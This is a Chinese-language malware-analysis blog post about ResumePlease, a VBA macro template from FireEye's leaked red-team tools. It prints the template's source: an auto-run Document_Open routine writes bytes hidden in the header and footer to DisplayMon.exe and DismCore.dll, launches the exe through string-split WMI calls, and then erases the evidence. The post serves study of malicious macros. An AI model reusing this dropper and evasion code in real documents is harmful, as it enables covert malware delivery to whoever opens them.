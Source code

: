 ```yaml
---
title: ResumePlease宏恶意模板分析
date: 2021-05-15 10:32:58
tags: 恶意代码
---
```


简单的分析一下Fireeye之前泄漏的红队工具里面的ResumePlease。

注意，我说的简单分析真的是简单分析，并没有谦虚的意思。

<!--more-->

感觉好久没更博客了，都快不知道怎么新建文章了，五一放完假之后都在忙课堂展示，过程真的略操蛋，因为找到的一些样本都好难分析，换了好几个样本。

### 样本信息

样本基本信息：

> **MD5**            5e8343ce6c6e2894f46648c532b241e3
>
> **SHA1**           6339a5d6543343c868499acb6dd42e2d56e51391
>
> **SHA256**       1866449e8ad2c55240eafdf14fc835138ca3e99a7b180c2150cef047868f56cc
>
> **文件类型**       Visual Basic Script File
>
> **文件大小**        4449字节

这个文件我是从[MalShare](https://malshare.com)下载的。

这里推荐一下[奇安信威胁情报中心](https://ti.qianxin.com)是一个在线沙箱检测的网站，还挺好用的。



### 前置知识

[Tactics, Techniques and Procedures (TTPs) Utilized by FireEye’s Red Team Tools](https://www.picussecurity.com/resource/blog/techniques-tactics-procedures-utilized-by-fireeye-red-team-tools)

[FireEye红队工具失窃事件跟进分析](https://www.antiy.cn/research/notice&report/research_report/20201214.html)

上面这两篇文章里面都提到ResumePlease这个样本，根据这两篇文章里面的描述，ResumePlease是一个Microsoft Office宏恶意软件模板，它并不能单独执行，需要绑定有恶意载荷的文件，才能生成恶意文件。

VBA（Visual Basic for Applications）是Visual Basic的一种宏语言。主要能用来扩展Windows的应用程序功能，特别是Microsoft Office软件。

### 样本分析

#### Document_Open()

首先是`Document_Open()`函数，定义文档打开后的一些操作。

```
Sub Document_Open()
 
'#
    writeOutHeader
    writeOutFooter
    DoStuff
    Cleanup
```

#### writeOutHeader()

（1）开始是一系列变量声明，Dim是VB中声明变量并分配存储空间的语句；

（2）之后就是构造文件路径dropPath，这里相当于创建了一个DisplayMon.exe文件，后续会对该文件进行写入操作；

（3）Office VBA官方文档中提到wdHeaderFooterPrimary的一些信息和使用方法，strIn这里获取的是第一节的页眉，strln就是恶意payload；

（4）InStr函数将也页眉中获取的strIn通过';'进行分割，然后写入DisplayMon.exe文件中。

> 使用**标头**（索引）或**页脚**（索引），其中索引是**WdHeaderFooterIndex**常量之一（**wdHeaderFooterEvenPages**、 **wdHeaderFooterFirstPage**或**wdHeaderFooterPrimary**），返回一个**HeaderFooter**对象。

```
Sub writeOutHeader()
    On Error Resume Next
    Dim intFileNum As Integer
    Dim byteTemp As Byte
    Dim strByte1 As String
    Dim i, j, k As Double
    Dim strIn As String
    Dim blnDone As Boolean
    intFileNum = FreeFile
    Dim dropPath As String
    
    dropPath = Environ("LOCALAPPDATA") & "\DisplayMon.exe"
    ` Environ获取环境变量，这里是生成DisplayMon.exe程序

    Open dropPath For Binary As intFileNum
    ` 打开文件

    strIn = ActiveDocument.Sections(1).Headers(wdHeaderFooterPrimary).Range.Text
    ` ActiveDocument为office VBA编程接口 获取活动文档第一节的页眉
    blnDone = False
    i = 1
    j = 1

    Do While Not blnDone
        k = InStr(i + 1, strIn, ";")
        ` InStr函数：返回一个 **Variant **(Long) 值，指定一个字符串在另一个字符串中首次出现的位置。
        If k = 0 Then
            blnDone = True
        Else
            blnDone = False
            strByte1 = Mid(strIn, i + 1, k - i - 1)
            ' a = CLng(strByte1)
            Put intFileNum, , CByte(strByte1)
            ` put语法  Put [#]filenumber, [recnumber], varname  这里是将strIn中内容，循环写入DisplayMon.exe文件
            i = k
            strByte1 = ""
            j = j + 1
            End If
    Loop
    Close intFileNum
End Sub
```

writeOutFooter与writeOutHeader基本上一样的，只不过将文档第一节的页脚内容写入DismCore.dll文件中。

#### DoStuff()

Dostuff()函数就是用来调用Windows内置函数来允许之前生成的恶意文件DisplayMon.exe

```
Sub DoStuff()

    Const WHAT = 12
    blah = Environ("LOCALAPPDATA") & "\DisplayMon.exe"
    Set serveYa = GetObject("wi" & "nmg" & "mts:\\.\r" & "oot\ci" & "mv2")
    ` winmgmts:\\.\root\cimv2   遍历进程列表
    Set startYa = serveYa.Get("Wi" & "n32_Pr" & "ocessS" & "tartup")
    ` Win32_ProcessStartup  基于Windows的进程的启动配置
    Set whatYa = startYa.SpawnInstance_
    whatYa.ShowWindow = WHAT
    Set procYa = GetObject("wi" & "nmgmt" & "s:r" & "oot\ci" & "mv2:W" & "in32_P" & "rocess")
    res = procYa.Create(blah, Null, whatYa, processid)
    ` 运行DisplayMon.exe

End Sub
```

#### Cleanup()

Cleanup()函数就是将office文件里面的恶意载荷清空，这样有一定隐蔽性，用户再打开恶意office文件的时候也无法发现什么。

```
Sub Cleanup()

    ActiveDocument.Sections(1).Headers(wdHeaderFooterPrimary).Range.Text = ""
    ActiveDocument.Sections(1).Footers(wdHeaderFooterPrimary).Range.Text = ""
    ActiveDocument.Save

End Sub
```



这个文件只是一个模板，没有办法运行，本来想找一个相关的payload，但是搞完这个展示就懒了，不知道啥时候还会想起来弄。

还有就是不知道为什么安天分析报告里面强调是excel文件，感觉代码里面并没有体现这一点。

月底估计还有一个样本分析相关的博客。

---

5.18补充

看了中国大学mooc里面的《软件安全之恶意代码机理与防护》，C7脚本病毒及宏病毒里面就讲了相关内容。

（1）一个是宏病毒感染机理：存在于数据文件或模板中，利用宏语言的功能将自己寄生到其他数据文档。

（2）其次是一些会自动执行的宏，Document_Open()就是一个自动执行的宏，有机会执行恶意行为，

![](1.png)

（3）拆分一次字符串，简单的混淆方法

`GetObject("wi" & "nmgmt" & "s:r" & "oot\ci" & "mv2:W" & "in32_P" & "rocess")` 
